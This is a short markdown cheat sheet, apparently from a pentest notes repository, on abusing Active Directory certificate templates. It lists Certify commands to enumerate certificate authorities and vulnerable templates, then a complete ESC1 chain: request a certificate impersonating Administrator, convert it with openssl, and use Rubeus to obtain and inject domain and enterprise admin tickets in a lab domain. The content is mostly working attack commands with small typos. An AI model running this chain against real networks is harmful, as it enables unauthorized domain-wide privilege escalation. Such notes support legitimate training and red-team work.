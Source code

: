 # Methodology
>1. Enumerate templates.
>2. Follow steps for specific escalation scenario.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Certify
**Enumerate all Certificate Authorities (CA) in the domain:**
```cmd
Certifi.exe cas
```

**Enumerate templates:**
```cmd
Certify.exe find
```

**Enumerate vulnerable templates:**
```cmd
Certify.exe find /vulnerable
```

>**ℹ️ Info:**
>It may appear as if not templates are vulnerable if the command doesn't return any of them, that's why it's important to enumerate them all and check manually if we can abuse some of them if we compromise another user. 

### ESC1
**Enroll in template and copy private key to a file:**
```cmd
Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

**Change RSA to PFX:**
```cmd
openssl.exe pkcs12 -in cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out DA.pfx
```

**Request TGT with the PFX:**
```cmd
# Request a TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request a enterprise admin TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```